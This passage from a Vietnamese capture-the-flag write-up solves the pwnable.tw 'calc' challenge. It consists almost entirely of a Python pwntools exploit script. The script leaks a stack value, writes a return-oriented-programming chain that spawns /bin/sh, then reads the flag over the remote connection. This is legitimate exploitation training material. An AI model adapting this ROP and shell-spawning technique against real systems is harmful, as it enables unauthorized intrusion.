 ```

payloads = [0x0805c34b,0x0000000b,0x080701d0,0x00000000,0x00000000,0x00000000,0x08049a21,0x6e69622f,0x0068732f]
#payloads = [0x080701aa, 0x080ec060, 0x0805c34b, int.from_bytes(b'/bin', byteorder='little', signed=False), 0x0809b30d, 0x080701aa, 0x080ec064, 0x0805c34b, int.from_bytes(b'//sh', byteorder='little', signed=False), 0x0809b30d, 0x080701aa, 0x080ec068, 0x080550d0, 0x0809b30d, 0x080481d1, 0x080ec060, 0x080701d1, 0x080ec068, 0x080ec060, 0x080701aa, 0x080ec068, 0x080550d0, 0x0807cb7f, 0x0807cb7f, 0x0807cb7f, 0x0807cb7f, 0x0807cb7f, 0x0807cb7f, 0x0807cb7f, 0x0807cb7f, 0x0807cb7f, 0x0807cb7f, 0x0807cb7f, 0x08049a21]

def Rop(io):
    for i in range(len(payloads)):
        print("[+] Leak payload : ",addrs[i])
        io.sendline(addrs[i])
        leak_value = int(io.recv(1024)) 
        print("[+] Leak value : ", leak_value)
        offset = payloads[i]- leak_value
        print("[+] Offset : ", offset)
        payload = '%s%+d' % (addrs[i],offset)
        print("[!] Payload : ",payload)
        io.sendline(payload)
        print("[!] Stack : ",hex(payloads[i]))
        print("[*]===========> %s"  % hex(int(io.recv(1024))))


#io = process(BIN)
io = remote('chall.pwnable.tw', 10100)
#raw_input("DEBUG")

# _breakpoint = """
#     0x080493f2
#     """

# gdb.attach(io,_breakpoint)
io.recv(1024)
io.sendline("+360")
pre_ebp = int(io.recv(1024))
payloads[5] = pre_ebp
print("[-] =========> Pre_ebp: " ,payloads[5])
Rop(io)
io.sendline("cat /home/calc/flag")

io.interactive()


#0xffffca9c - > 0xffffd02c


```

Và chúng ta đã có thể có flag
